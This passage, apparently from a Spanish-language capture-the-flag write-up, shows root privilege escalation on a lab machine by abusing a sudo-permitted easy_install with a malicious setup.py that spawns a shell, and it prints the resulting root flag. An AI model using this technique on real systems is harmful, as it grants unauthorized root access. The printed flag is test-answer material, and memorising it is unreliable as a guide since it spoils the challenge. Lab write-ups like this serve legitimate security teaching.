 ```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```

```bash
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.MsysFeFmHD
Writing /tmp/tmp.MsysFeFmHD/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.MsysFeFmHD/egg-dist-tmp-5Im0md
## whoami
root
```

### root.txt

Encontraremos la segunda *flag* en el *homedir* de *root*:

```bash
## cat root.txt
4d58348454902d55b092802f34d2fd15
```





